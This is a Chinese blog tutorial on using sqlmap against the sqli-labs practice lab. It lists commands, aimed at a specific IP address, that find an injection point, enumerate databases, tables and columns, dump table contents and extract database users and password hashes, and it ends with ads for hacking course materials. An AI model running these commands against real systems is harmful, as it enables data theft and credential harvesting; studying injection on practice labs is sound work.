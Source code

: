 
--- 
title:  SQL注入之sqlmap入门教程_sqlmap注入 
tags: []
categories: [] 

---
原来sql注入如此简单

以SQL注入靶场sqli-labs第一关为例，进行sqlmap工具的使用分享。

### 一、判断是否存在注入点

使用命令：

使用命令：sqlmap -u “http://49.232.78.252:83/Less-1/?id=1”

有图中白色背景的 则判断出有注入点

<img src="https://img-blog.csdnimg.cn/6fdbf4b727bd4a188cf4a2413d4eebb0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_20,color_FFFFFF,t_70,g_se,x_16" alt="">

### 二、查询当前用户下所有数据库

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” --dbs

可以看到有五个表

<img src="https://img-blog.csdnimg.cn/107605e4c0354905adbd834a8c93d610.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_20,color_FFFFFF,t_70,g_se,x_16" alt="">

### 三、获取数据库中的表名

选取一个challenges数据库，获取此库的表名

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” -D challenges --tables

<img src="https://img-blog.csdnimg.cn/575b7a10c1db4ef0ac552f46ba600c74.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_10,color_FFFFFF,t_70,g_se,x_16" alt="">

### 四、获取表中的字段名

选取表T5M0QG6FM2，获取其中字段名

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” -D challenges -T T5M0QG6FM2 –columns

<img src="https://img-blog.csdnimg.cn/f701be5e4c7c4dd799c31e1ad5a18c6a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_16,color_FFFFFF,t_70,g_se,x_16" alt="">

### 五、获取字段内容

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” -D challenges -T T5M0QG6FM2 --columns –dump

<img src="https://img-blog.csdnimg.cn/52fb0c4daac440199297fad04062ef70.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_20,color_FFFFFF,t_70,g_se,x_16" alt="">

### 六、获取数据库的所有用户

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” –users

使用该命令就可以列出所有管理用户

<img src="https://img-blog.csdnimg.cn/ad6d3e4081dd43b2bc37b4bdcc14715e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_18,color_FFFFFF,t_70,g_se,x_16" alt="">

### 七、获取数据库用户的密码

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” –passwords

<img src="https://img-blog.csdnimg.cn/f0b601dbd4b4496ea6438cb5cc7f9f34.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_20,color_FFFFFF,t_70,g_se,x_16" alt="">

### 八、获取当前网站数据库的名称

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” --current-db

<img src="https://img-blog.csdnimg.cn/c5e54a65c5564b6896cbca2854cc7e97.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_18,color_FFFFFF,t_70,g_se,x_16" alt="">

可以看到当前的数据库是 security

### 九、获取当前网站数据库的用户名称

使用命令：

sqlmap -u “http://49.232.78.252:83/Less-1/?id=1” --current-user

当前用户是root

<img src="https://img-blog.csdnimg.cn/ce5a71614e2048579e92de645f68c175.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6I-c6bif5bCP6ZmI6ZmI,size_19,color_FFFFFF,t_70,g_se,x_16" alt="">

## 学习资料分享

当然，**只给予计划不给予学习资料的行为无异于耍流氓**，### 如果你对网络安全入门感兴趣，那么你点击这里**👉**

**如果你对网络安全感兴趣，学习资源免费分享，保证100%免费！！！（嘿客入门教程）**

**👉网安（嘿客）全套学习视频👈**

我们在看视频学习的时候，不能光动眼动脑不动手，比较科学的学习方法是在理解之后运用它们，这时候练手项目就很适合了。

#### 

#### <img src="https://img-blog.csdnimg.cn/img_convert/d1c617b78ee48eda7601e5b803e69276.png" alt="img">

#### **👉网安（嘿客红蓝对抗）所有方向的学习路线****👈**

对于从来没有接触过网络安全的同学，我们帮你准备了详细的学习成长路线图。可以说是最科学最系统的学习路线，大家跟着这个大的方向学习准没问题。

#### <img src="https://img-blog.csdnimg.cn/img_convert/de55dfd737dae0cf88e416d0454b17a8.png" alt="img">

#### 学习资料工具包

压箱底的好资料，全面地介绍网络安全的基础理论，包括逆向、八层网络防御、汇编语言、白帽子web安全、密码学、网络安全协议等，将基础理论和主流工具的应用实践紧密结合，有利于读者理解各种主流工具背后的实现机制。

<img src="https://img-blog.csdnimg.cn/9609a53465cf4253b492a5185896fa71.png" alt="在这里插入图片描述">

**面试题资料**

独家渠道收集京东、360、天融信等公司测试题！进大厂指日可待！ <img src="https://img-blog.csdnimg.cn/f5f267c281c543fb9cc9af53b9003a37.png" alt="在这里插入图片描述">

#### **👉<strong><strong>嘿客必备开发工具**</strong>👈</strong>

工欲善其事必先利其器。学习**嘿**客常用的开发软件都在这里了，给大家节省了很多时间。

#### 这份完整版的网络安全（**嘿**客）全套学习资料已经上传至CSDN官方，朋友们如果需要点击下方链接**也可扫描下方微信二v码获取网络工程师全套资料**【保证100%免费】

#### <img src="https://img-blog.csdnimg.cn/img_convert/16c400294b6fda8f01400f24f1f12b0c.png" alt="在这里插入图片描述">

#### 如果你对网络安全入门感兴趣，那么你点击这里**👉**
